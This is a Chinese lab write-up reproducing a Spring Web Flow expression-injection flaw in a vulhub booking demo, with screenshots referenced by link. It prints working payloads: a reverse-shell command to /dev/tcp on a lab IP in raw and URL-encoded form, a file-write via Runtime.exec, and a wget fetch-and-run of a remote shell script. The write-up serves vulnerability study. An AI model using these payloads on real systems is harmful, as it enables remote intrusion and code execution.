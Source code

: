 
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083041.png)image-20210829204104888

点击预订按钮”Book Hotel"，填写相关信息后点击“ Process”(从这一步，其实WebFlow就正式开始了)︰

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083042.png)image-20210829204232794

随便输入一些内容后，我们点击Proceed然后会跳转到Confirm页面（Credit Card为16位）：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083043.png)

点击confirm时进行抓包

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083044.png)image-20210829204401161![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083045.png)image-20210829204731522

反弹shell的poc：

    
    
    原POC:  
    &_(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/192.168.173.133/1234 0>&1")).start()=vulhub  
      
    URL编码后  
    &_(new java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.173.133/1234 0>%261")).start()=vulhub  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083046.png)image-20210829210014751

exp扩展

> 1、向里面写入文件
>  
>  
>     &_T(java.lang.Runtime).getRuntime().exec("touch /tmp/zcc")  
>     >
>
>
> ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083047.png)image-20210829211034218![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083048.png)image-20210829211128104

> 2、使用wget下载远程bash脚本
>  
>  
>     &_T(java.lang.Runtime).getRuntime().exec("/usr/bin/wget -qO /tmp/shell
> http://x.x.x.x:xxxx/shell")  
>     >

> 3、执行上一步下载的脚本
>  
>  
>     &_T(java.lang.Runtime).getRuntime().exec("/bin/bash /tmp/shell")  
>     >

#### 安全防护
